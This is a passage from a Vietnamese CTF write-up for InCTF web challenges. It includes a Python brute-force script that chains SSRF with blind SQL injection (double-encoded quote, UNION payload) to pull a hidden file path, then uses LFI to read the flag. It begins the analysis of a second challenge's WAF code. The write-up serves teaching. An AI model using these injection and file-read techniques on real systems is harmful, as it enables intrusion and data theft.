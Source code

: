 Sau khi một hồi tìm thì không thấy flag ở trong db và phải inbox author hỏi. Anh ấy bảo chỉ cần tìm path flag ở trong db. Tới đây mình nghĩ vậy ở trong db có path flag sau đó chỉ cần sử dụng LFI để đọc.

Chú ý ở câu `query1` được comment
```php
//$query1=select name,path from adminfo;
```
Chúng ta có table `adminfo` và có 2 cột name và path. Có lẽ brute path ở đây.

### Payload
Mình đã sử dụng LFI để đọc file `/etc/hosts` và nhận được host local là `192.168.48.2` và mình sử dụng nó luôn hehe
```py
import requests
import string

url="http://web.challenge.bi0s.in:6006/login"
url1="http://web.challenge.bi0s.in:6006/dev_test"

def login():
  r = requests.post(url,data={'username':'admin','password':'1337'}, allow_redirects = False)
  newcookie= r.cookies['session']
  return newcookie

i=0
flag = ''
newcookie=login()

while True:
  i = i+1
  for char in '/'+string.ascii_letters+string.digits+'-.':
    print(flag+char,end='\r')
    data = {'url':f"http://192.168.48.2?part1=%252527&part2=1,name from adminfo where name like 0x{(flag+char).encode('utf-8').hex()}25 Union select 1"}
    r = requests.post(url=url1,data=data,cookies={"session":newcookie})
    print(r.text)
    if 'Not' in r.text:
      flag += char
      print(flag)
      break
```
Sau đó sử dụng path flag và brute được vào chỗ. `/return-file?f=/path_flag`.

Flag -> `inctf{y0u_pr0v3d_th4t_1t_i5_n0t_53cur3_7765626861636b6572}`

## Challenge Json Analyser
Ở bài này được cung cấp all source. Server sẽ kill trong 10 phút, nên mình tự deploy local để test.
Đầu tiên, sẽ có phần upload file, nhưng để upload được thì cần phải có pin code. Ở `/waf` có vẻ như là sẽ tạo pincode.

Đọc code thôi hehe. file `/waf/waf.py`
```py
@app.route('/verify_roles',methods=['GET','POST'])
def verify_roles():
    no_hecking=None
    role=request.args.get('role')
    if "superuser" in role:
        role=role.replace("superuser",'')
    if " " in role:
        return "n0 H3ck1ng"
    if len(role)>30:
        return "invalid role"
    data='"name":"user","role":"{0}"'.format(role)
    no_hecking=re.search(r'"role":"(.*?)"',data).group(1)
```